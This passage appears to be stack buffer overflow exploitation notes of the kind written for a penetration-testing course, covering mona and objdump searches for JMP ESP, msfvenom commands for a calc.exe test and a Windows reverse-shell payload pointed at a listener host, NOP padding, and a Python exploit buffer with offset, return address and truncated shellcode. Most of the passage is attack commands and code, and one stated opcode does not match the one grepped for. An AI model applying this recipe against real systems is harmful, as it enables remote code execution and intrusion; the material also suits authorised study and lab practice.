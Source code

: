 The mona jmp command can be used to search for jmp (or equivalent) instructions to a specific register. The jmp command will, by default, ignore any modules that are marked as aslr or rebase.

The following example searches for "jmp esp" or equivalent (e.g. call esp, push esp; retn, etc.) while ensuring that the address of the instruction doesn't contain the bad chars \\x00, \\x0a, and \\x0d.


    !mona jmp -r esp -cpb "\x00\x0a\x0d"

The mona find command can similarly be used to find specific instructions, though for the most part, the jmp command is sufficient:


    !mona find -s 'jmp esp' -type instr -cm aslr=false,rebase=false,nx=false -cpb "\x00\x0a\x0d"
    
    

Alternate method: on attack box, search DLL file for JMP ESP (\xff\xd4)  
 
 
    objdump -d essfunc.dll | grep 'ff e4'
    
Popping calc.exe    
================   

Not getting a shell connection: test if offset, bad chars and JMP ESP are correct by running calc.exe.  


    msfvenom -p windows/exec CMD=calc.exe -b "\x00" -f c         


Generate Payload
================

Generate a reverse shell payload using msfvenom, making sure to exclude the same bad chars that were found previously:


    msfvenom -p windows/shell_reverse_tcp LHOST=192.168.1.92 LPORT=53 EXITFUNC=thread -b "\x00\x0a\x0d" -f c    
    
copy C shellcode and insert into python script as payload = ("\xfc\xbb\xa1\..multiple lines..6\xa2\xeb\x0c")

Prepend NOPs
============

If an encoder was used (more than likely if bad chars are present, remember to prepend at least 16 NOPs (\\x90) to the payload.

Final Buffer
============

    prefix = ""
    offset = 112
    overflow = "A" * offset
    retn = "\x56\x23\x43\x9A"
    padding = "\x90" * 16
    payload = "\xdb\xde\xba\x69\xd7\xe9\xa8\xd9\x74\x24\xf4\x58\x29\xc9\xb1..."
    postfix = ""
    